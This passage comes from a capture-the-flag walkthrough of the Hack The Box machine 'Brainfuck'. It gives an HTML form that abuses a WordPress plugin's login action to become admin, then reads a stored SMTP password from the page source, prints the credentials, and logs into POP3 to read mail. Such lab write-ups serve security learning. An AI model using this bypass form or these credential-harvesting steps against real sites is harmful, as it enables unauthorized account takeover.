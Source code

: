 ```php
<form method="post" action="https://brainfuck.htb/wp-admin/admin-ajax.php">
        Username: <input type="text" name="username" value="admin">
        <input type="hidden" name="email" value="orestis@brainfuck.htb">
        <input type="hidden" name="action" value="loginGuestFacebook">
        <input type="submit" value="Login">
</form>
```

```bash
python3 -m http.server --bind 10.10.14.2 80
```

![[Brainfuck-06.png]]
Then we click the exploit.html file.

![[Brainfuck-07.png]]

Then click the login button.

![[Brainfuck-08.png]]

we didn't see anything. And we back to the https://brainfuck.htb/

![[Brainfuck-09.png]]

Cool! when we come back, we are the admin account now!

![[Brainfuck-10.png]]

And we will find SMTP plugin.

![[Brainfuck-11.png]]

We check the SMTP password function. We check the inspector to check the password.

![[Brainfuck-12.png]]

![[Brainfuck-13.png]]


```bash
# user and password
orestis
kHGuERB29DNiNE
```

## Exploit SMTP/POP3

```bash
telnet 10.10.10.17 110
user orestis
pass kHGuERB29DNiNE
retr 1 
retr 2
```
